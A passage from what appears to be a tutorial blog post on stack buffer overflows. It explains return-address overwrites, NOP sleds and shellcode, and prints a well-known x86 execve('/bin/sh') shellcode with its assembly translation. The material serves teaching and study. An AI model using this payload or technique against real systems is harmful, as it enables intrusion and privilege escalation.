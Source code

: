 The hacker goal is to overwrite a memory portion called **Return Address** with a **<span style="color:blue">Fake_ Return_Address</span>** aiming at the **<span style="color:purple">NOPSled</span>** in order to execute the **<span style="color:red">ShellCode</span>**...
{: .text-justify}

Below is a representation of what we are trying to do in the **funcMyLife ()** function **Stack Frame**.
{: .text-justify}

![alt]({{ site.url }}{{ site.baseurl }}/assets/images/posts_img/shellcode-injection.gif){: style="display: block; margin-left: auto; margin-right: auto"}

## NOPSLED

The nopsled here is a long **<span style="color:purple">0x90</span>** character repetition translating to the **<span style="color:purple">nop</span>** instruction, an instruction that does... litteraly nothing. However, when a nop instruction is encountered, the program execution does not stop, however, the next instruction in line is played. If a program falls into a **<span style="color:purple">nop</span>** sequence, it literally slides to the end of that "track".
{: .text-justify}

But what is that for ? You should know that under normal conditions, memory moves a lot. Using a **<span style="color:purple">NopSled</span>** is like drawing a giant ass target on the memory's ass, and makes it easier to aim for our exploit!
{: .text-justify}

## SHELLCODE

The shellcode is our exploit [payload][refpload]. It is in charge of the behavior we want the attacked program to adopt.
{: .text-justify}

Here is a very commonly used shellcode (_found on [Shell-Storm](http://shell-storm.org/)_):
{: .text-justify}

```shell
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
```
It is translated as follows in **ASM** language:
{: .text-justify}

```asm
xor  %eax,%eax
push %eax
push $0x68732f2f
push $0x6e69622f
mov  %esp,%ebx
push %eax
push %ebx
mov  %esp,%ecx
mov  $0xb,%al
int  $0x80
```

This little piece of code allows you to simply run **/bin/sh**.
{: .text-justify}


[refbo]: https://en.wikipedia.org/wiki/Buffer_overflow
[refdos]: https://en.wikipedia.org/wiki/Denial-of-service_attack
[refsetuid]: https://en.wikipedia.org/wiki/Setuid
[refpe]: https://en.wikipedia.org/wiki/Privilege_escalation
[refpload]: https://en.wikipedia.org/wiki/Payload_(computing)
[refbogdbp1]: https://en.0x0ff.info/tools/2021/02/04/Buffer-Overflow-and-GDB-Part1.html